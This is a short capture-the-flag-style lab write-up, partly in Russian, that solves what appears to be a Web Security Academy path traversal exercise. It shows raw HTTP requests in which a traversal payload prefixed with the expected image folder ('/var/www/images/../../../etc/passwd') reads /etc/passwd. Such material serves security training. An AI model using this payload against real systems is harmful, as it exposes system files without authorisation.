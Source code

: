 # Lab: File path traversal, validation of start of path
PRACTITIONER

This lab contains a path traversal vulnerability in the display of product images.

The application transmits the full file path via a request parameter, and validates that the supplied path starts with the expected folder.

To solve the lab, retrieve the contents of the /etc/passwd file.

## Решение
Попробую обратиться по прямому пути:
```
GET /image?filename=/etc/passwd HTTP/2
Host: 0a0d00d304ac210d808dc13800c1003c.web-security-academy.net
Cookie: session=U1jsQeIVyP4bZR0XlIs0V2iNJt49A2KY
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: image/avif,image/webp,*/*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a0d00d304ac210d808dc13800c1003c.web-security-academy.net/
Sec-Fetch-Dest: image
Sec-Fetch-Mode: no-cors
Sec-Fetch-Site: same-origin
Te: trailers
```
Ответ: `"Missing parameter 'filename'"`

Попробую выйти в корень (на три уровня выше) и оттуда обратиться к /etc/passwd:
```
GET /image?filename=/var/www/images/../../../etc/passwd HTTP/2
Host: 0a0d00d304ac210d808dc13800c1003c.web-security-academy.net
Cookie: session=U1jsQeIVyP4bZR0XlIs0V2iNJt49A2KY
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: image/avif,image/webp,*/*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a0d00d304ac210d808dc13800c1003c.web-security-academy.net/
Sec-Fetch-Dest: image
Sec-Fetch-Mode: no-cors
Sec-Fetch-Site: same-origin
Te: trailers
```
Работает. Задание выполнено.
